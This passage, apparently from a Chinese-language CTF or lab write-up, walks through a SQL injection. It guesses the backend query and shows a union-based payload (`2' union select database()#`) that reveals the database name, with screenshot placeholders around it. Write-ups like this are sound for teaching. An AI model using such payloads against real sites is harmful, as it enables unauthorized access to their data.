 ![upload successful](/images/pasted-500.png)
没有信息回显了，猜测sql语句可能是：`select ? from table where username='666'#'`

使用联合注入爆数据库：`2' union select database()#`

![upload successful](/images/pasted-501.png)
